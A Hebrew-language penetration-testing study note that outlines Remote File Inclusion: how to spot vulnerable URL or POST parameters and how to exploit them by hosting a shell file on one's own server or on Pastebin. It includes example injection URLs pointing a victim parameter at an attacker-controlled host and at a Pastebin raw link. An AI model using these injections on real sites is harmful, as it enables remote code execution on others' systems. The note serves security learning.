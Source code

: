 RFI - Remote File Inclusion
# המטרה
* לטעון קבצים מרוחקים - אבל זה לא מספיק
* הרצת קוד מרחוק בעקבות קובץ שהעלנו - [[RCE]]
# אינדיקציה
* אם יש קלט בURL שטוען קובץ כלשהו - אם השיטה GET
```
https://pentest.vaadata.com/index.php?page=home
```
* אם יש קלט בגוף הבקשה שטוען משהו - אם הבקשה בPOST
* אם זיהיתי [[LFI]] אז אני אנסה - לטעון קובץ מרוחק
* אם יש קלט בURL שטוען כתובת מרוחקת
```
victim.php?module_name=http://malicious.example.com
```

# ניצול
1) איתור אזור פגיע
2) יצירת קובץ זדוני שנחדיר בנקודת ההזרקה
3) ביצוע ההזרקה
4) הרצת פקודה
### אופציה 1 - שרת משלנו
1. הרמת שרת משלנו בקאלי לינוקס או במחשב הרגיל שלנו
2. יצירת קובץ shell כלשהו
3. טעינת הכתובת של המכונה שלנו
4. ביצוע פקודה כלשהי או אינדיקציה להעלאה כלשהי למערכת הנתקפת

### אופציה 2 - שימוש בpastebin
האתר: https://pastebin.com/
* הוא נותן לנו ליצור קובץ למשל php ואז לטעון אותו מבלי להרים שרת
* ניצור את הpaste
![[Pasted image 20250723003202.png]]
* ניקח את הכתובת שנוצרה כמו בתמונה
![[Pasted image 20250723003223.png]]
* ננסה לטעון אותה על הקלט הפגיע
```
http://victim.php?module_name=http://pastebin.com/raw/serqJC55
```
